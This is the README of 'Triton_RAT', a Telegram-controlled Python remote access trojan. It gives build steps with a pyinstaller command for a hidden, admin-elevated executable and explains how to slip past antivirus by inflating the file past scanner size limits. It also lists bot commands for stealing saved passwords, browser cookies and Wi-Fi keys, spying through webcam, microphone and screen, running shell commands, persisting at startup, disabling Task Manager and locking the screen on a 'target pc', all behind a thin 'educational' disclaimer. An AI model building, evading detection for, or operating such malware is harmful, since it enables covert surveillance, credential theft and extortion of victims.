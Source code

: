 # Triton_RAT
<div align="center" id="top">
  
</div>


<div align="center">
  <h1>Triton_Remote_Administration_Tool</h1>
<img src="https://i.ibb.co/hVTH6L5/TRITON.png" alt="TRITON" border="0">
  
  <h2 align="center">Hi 👋, I'm WhiteeRabbit</h2>
  
  
  <h3 align="center">I wrote RAT in python that works with telegram!</h3>


  <h3>The best rat that works with telegram!</h3>
This tool was created for educational purporses only!
I'm not responding for your action!
</div>





## :dart: About ##

**With this tool you can control with YOUR pc remotly using telegram**
That you need only hand (2 optional) , exe file that you will get from pyinstaller and telegram account

<p align="left"> <a href="https://twitter.com/" target="blank"><img src="https://img.shields.io/twitter/follow/?logo=twitter&style=for-the-badge" alt="" /></a> </p>

<p align="left">
</p>

<h3 align="left">Let's get started!:</h3>
<h3 align="left">Download python!</h3>
<p align="left"> <a href="https://www.python.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> </p>

<h1 align="left">Bot Password (when you entering /help or /start) : acd</h1>



## :checkered_flag: Starting ##

```bash
# Register account in telegram
# Create bot with botfather


# Download this project
# In the old version of Rat we used a site for obfuscation and installed pyinstaller with github repo
# But antiviruses now detect it worse than installin pyinstaller via pip
# and Virustotal will show less detection than obfuscation
# But I wouldn't be me if i didn't find an obfuscation method
# There are still decetions , but at least we make fewer of them.

$ Download pyinstaller 5.13.0 or older versions: pip install pyinstaller==5.13.0
# if you downloaded pyinstaller from pip like pip install pyinstaller
# Delete that 

# also i'm recomending you to install and upgrade setuptools and pip
$ pip install --upgrade setuptools pip
# if you don't do this, problems may arise

# Download requiremets.txt
$ pip install -r requirements.txt

# change bot api in python file to your own bot
$ bot = telebot.TeleBot('your api token')

# !MAIN STEP! obfuscation will help to deceive antiviruses
$ For obfuscation we will use my python program which you can find at the link: https://github.com/WhiteeRabbit/fake_file_resizer
$ https://github.com/WhiteeRabbit/fake_file_resizer
# We can increase the file size through this appalication so that antiviruses skip rat beacuse of size.
# For example if you write the size 620 mb , Antivirus Eset will skip that,and it will less detetct.
# Today this is the best obfuscation method of obfuscation 

# after downloading pyinstaller run:
$ pyinstaller --onefile --noconsole --uac-admin --hidden-import telebot --hidden-import pyautogui --hidden-import cv2 --hidden-import json --hidden-import base64 --hidden-import sqlite3 --hidden-import win32crypt --hidden-import Cryptodome.Cipher.AES --hidden-import shutil --hidden-import datetime --hidden-import numpy --hidden-import pyaudio --hidden-import wave --hidden-import random --hidden-import browser_cookie3 --hidden-import pyttsx3 --hidden-import pynput Triton_Rat_Release.py



# wait for building exe
# !BOT PASSWORD IS: acd

$ run exe and bot started! 


```
<h1 align="left">If you want to avoid scanning some antiviruses you can make that⬇️</h1>
More online scanners and antiviruses also most popular online antivirus scanner virustotal's max allowed file size is 650 MB.
Antiviruses, seeing the file size that it is large, will stupidly not check it! and you will be cool man.
<h3>I wrote a python app that will help you to change your file's size for ex: from 100 mb to 750 mb. </h3>
<h3>With help of this app you can make your file's size as you wanted!(it works on all systems)</h3>
<h3>Download app: https://github.com/WhiteeRabbit/fake_file_resizer/</h3>
<a href="https://ibb.co/Bzw91qZ"><img src="https://i.ibb.co/gj6xnzT/23.png" alt="23" border="0" /></a>
<h4>Download here: https://github.com/WhiteeRabbit/fake_file_resizer/</h4>

## You can use:

        ⚔️/start - start the program
        ⚙️/help - help with commands
        🔌/addstartup - to add autostart
        🧑🏻‍💻/users - show users in pc
        🔑/passwords - show saved passwords in pc
        🍪/robloxcookie - show roblox cookies
        🪪/info - to show information about pc ,also location , country, city , ip
        🖥️/whoami - to show name of pc
        💬👂🏻/textspech 'your text' - your text will sounded in pc
        🎵/playsound 'file path' -(first run /upload to upload your music file in pc) your file will sound in pc for ex: /playsound C:\test.mp3
        🔫/execute - execute shell commands (like terminel emulator in netcat)
        🗡️/e 'your command' - also execute shell commands
        🏹/ex 'your command' - use this if you will execute commands with long response 
        📷/screenshot - to get screenshot
        📹/webscreen - get screenshot from camera
        🎙️/mic 'time in seconds' - record microphone of pc
        ☢️/winblocker - my own winlocker
        ☣️/winblocker2 - if winblocker doesnt work
        📁/download 'your file' - to download files(for exm: /download C:\test.txt)
        🗃️/upload - to upload file in target pc
        📋/clipboard - show users clipboard
        🎦/webcam - get webcam video
        🎥/screenrecord - get screenrecord
        🌐/chrome 'website url' - open website in chrome in target pc
        🌐/edge 'website url' - open website in edge in target pc
        🌐/firefox 'website url' - open website in firefox in target pc             
        Ⓜ️/msg 'your message' - send message(messagebox) to target
        💣/spam 'your message' - spam your message 10 times but if you will click al lot...
        🛜/wifilist - show saved wifi
        🔐/wifipass 'name of accespoint' - show password of saved wifi
        🖱️/mousemesstart - start mouse messing
        🐁/mousemesstop - stop mouse messing
        🪤/mousekill - disable mouse
        🐭/mousestop - enable mouse
        🔊/fullvolume - make full volume
        🔉/volumeplus - make pc volume + 10
        🔇/volumeminus - make pc volume - 10
        🪦/disabletaskmgr - disable task manager
        📠/enabletaskmgr - enable task manager
        🧱/wallpaper - change desktop's wallpaper
        ⌨️/keypress 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypresstwo 'your key' 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypressthree 'your key' 'your key' 'your key' - in pc's keyboard will pressed this keys 
        📃/tasklist - to show tasks
        🧨/taskkill 'your task' - kill entered task
        🕶️/hide - to hide your app
        👓/unhide - unhide your app
        💤/sleep - send windows to sleep
        🕚/shutdown - shutdown pc
        🔄️/restart - restart pc



## Antivirus check ##

![Снимок экрана (21)](https://github.com/WhiteeRabbit/Triton_RAT/assets/143087729/178186bb-aada-4e7b-bf6f-1e751675d6e4)







## :memo: License ##

This project is licensed under the MIT License. For more details, please refer to the [LICENSE](LICENSE.md) file.

